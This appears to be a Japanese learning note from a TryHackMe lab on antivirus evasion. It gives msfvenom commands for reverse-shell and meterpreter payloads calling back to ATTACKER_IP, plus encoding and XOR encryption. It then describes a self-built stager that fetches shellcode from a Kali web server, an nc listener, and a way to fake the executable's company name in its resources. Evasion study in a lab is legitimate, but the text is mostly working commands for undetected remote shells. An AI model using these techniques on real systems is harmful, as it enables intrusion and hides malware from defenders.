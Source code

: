 ## AVに検知される奴

### エンコード
エンコーダーの一覧
```
$ msfvenom --list encoders | grep excellent
```

ペイロードの作成
```
$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

### 暗号化
暗号一覧
```
$ msfvenom --list encrypt
```

ペイロードの作成
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

これらは単純過ぎて、Windows Defenderに検知される。

## AVに検知されない奴

ドキュメントにしたがい試してみたが、自分のPCのWindows11ではWindows Defenderに検知される。

- THMのwindows defenderの状況
```
PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.19500.2     4.18.2205.7      1.373.1336.0


PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
9/1/2022 3:20:12 AM
```

- 自分のPC
```
PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.24050.5     4.18.24050.7     1.413.487.0


PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
2024/06/24 13:51:20
```

## なので自分で作った検知されない奴

### 共通の下準備

#### ステージャーの作成

それぞれ、`mfsvenom`でペイロードを作成して、webサーバーに設置。共通のステージャー(hoge.cs)を使用する。
1. hoge.csを作成
2. Windows上でコンパイル
```
>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe hoge.cs
```
3. 出来上がった`hoge.exe`をやられ役のWindowsに配備

#### kaliでwebサーバーを起動
```
$ python -m http.server
```

### パターン1: 電卓起動(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 --platform windows -p windows/x64/exec cmd=calc.exe -f raw -o a.html -b '\x00\x0a\x0d'\n
```

2. やられ役のWindows上で、hoge.exeを実行
```
>hoge.exe
```

![image](https://github.com/yokohama/thm/assets/1023421/f99c50cc-3053-43c8-ace7-9f04628b1c11)



### パターン2: リバースシェル(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<Kali IP> LPORT=7474 -f raw -o b.html -b '\x00\x0a\x0d\'
```

2. やられ役のWindows上で、hoge.exeを実行(ペイロードURLをb.htmlに変更して)
```
>hoge.exe
```

3. Kaliで待ち受ける
```
$ nc -lvp 7474
```

![スクリーンショット 2024-06-25 131542](https://github.com/yokohama/thm/assets/1023421/4ba88b4f-dabe-42dd-b933-7238d0eb54d9)

### process explorerなどで見た時の会社名を加工する

1. RC(リソース・スクリプト(テキスト))_ファイルの作成

今回は会社名を加工したい。

2. RCファイルをRES(リソース(バイナリ))ファイルに変換

RCファイルをリソースコンパイラ (rc.exe) を使用して .res ファイルに変換する。RESファイルは、バイナリ形式のリソースデータを含むファイルで、アプリケーションの実行ファイルに組み込むためのリソース情報を格納する。

3. RESファイルを使用してCSファイルをコンパイルし、EXEファイルを作成

C# コンパイラ (csc.exe) を使用して、.cs ファイルと .res ファイルから実行可能ファイル .exe を生成します。このステップでは、リソースファイルが実行ファイルに組み込まれ、最終的な製品に会社名やその他の情報を含めることができる。
